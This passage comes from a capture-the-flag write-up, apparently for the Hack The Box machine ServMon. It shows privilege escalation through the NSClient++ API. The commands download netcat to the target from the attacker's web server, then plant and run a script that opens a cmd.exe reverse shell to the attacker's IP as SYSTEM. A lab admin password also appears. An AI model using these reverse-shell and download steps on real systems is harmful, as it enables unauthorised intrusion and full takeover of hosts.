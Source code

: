 Now, I copy the pre-compiled Windows netcat executable that exists on a default Kali installation over to the target with a simple Python web server.

My machine:

```bash
cp /usr/share/windows-resources/binaries/nc.exe .
python3 -m http.server
```

On the target:

```bat
cd C:\Temp
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.19:8000/nc.e
xe', 'nc.exe')"
```

Now I set up a netcat listener on my machine:

```bash
sudo nc -lvnp 4444
```

On the target, I "upload" the netcat executable to the NSClient++ web server with a data payload that will trigger a reverse shell.

```bat
curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/root.bat --data-binary "C:\Temp\nc.exe 10.10.14.19 4444 -e cmd.exe"
```

I am prompted for the admin password (`ew2x6SsGTxjRwXOT`), which I supply from the helpful command earlier.
Then, I can execute the script via another NSClient++ API endpoint and obtain a SYSTEM shell.

```bat
curl -s -k -u admin https://127.0.0.1:8443/api/v1/queries/root/commands/execute?time=3m
```

I again enter the admin password when prompted and get my shell.

![root shell][]

[burp]: https://portswigger.net/burp
[exploitdb]: https://www.exploit-db.com/
[hackthebox]: https://www.hackthebox.eu
[hydra]: https://tools.kali.org/password-attacks/hydra
[nsclient++]: https://nsclient.org/
[privesc]: https://www.exploit-db.com/exploits/46802
[rce]: https://www.exploit-db.com/exploits/48360

[root shell]: /assets/img/htb/servmon/root-shell.png
